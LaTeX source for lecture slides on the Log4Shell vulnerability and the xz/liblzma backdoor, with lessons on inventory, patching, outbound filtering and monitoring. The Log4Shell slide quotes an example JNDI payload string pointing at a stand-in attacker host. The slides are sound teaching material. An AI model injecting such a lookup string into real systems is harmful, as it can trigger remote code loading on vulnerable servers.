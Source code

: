 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item CVE-2021-44228 -- a log message like \verb+${jndi:ldap://attacker/a}+ made Log4j\\
connect out and load code
\item First question everywhere: \emph{do we use Log4j?} -- most could not answer quickly
\item Log4j was often a dependency of a dependency, or inside a vendor product
\item Lessons:
\begin{list2}
\item Know what you run -- inventory and SBOM
\item Be able to patch and redeploy fast
\item Restrict outbound traffic from servers -- the exploit needed to connect out
\item Monitor -- the callbacks were visible in network logs
\end{list2}
\end{list2}



\begin{list2}
\item March 2024, Andres Freund, PostgreSQL developer at Microsoft, benchmarking PostgreSQL on Debian unstable
\item SSH logins used more CPU and took longer than expected -- he investigated
\item Found a backdoor in xz/liblzma 5.6.0 and 5.6.1 -- CVE-2024-3094, CVSS 10
\item sshd does not use liblzma directly -- distributions patch sshd for systemd notification,\\
and libsystemd pulls in liblzma
\item The backdoor allowed remote code execution for whoever had the attacker's private key
\item Caught before it reached stable releases of the big distributions
\end{list2}

{\footnotesize{}}


\end{document}
